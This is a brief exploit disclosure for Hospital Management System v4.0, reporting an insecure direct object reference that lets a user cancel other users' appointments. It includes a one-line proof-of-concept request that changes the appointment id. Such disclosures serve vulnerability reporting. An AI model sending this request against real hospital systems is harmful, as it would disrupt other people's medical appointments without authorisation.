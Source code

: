 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Phpgurukul
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker user to cancel the appointment that is booked by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /hospital/hms/appointment-history.php?id=6(CHANGE HERE)&cancel=update HTTP/1.1
...
```






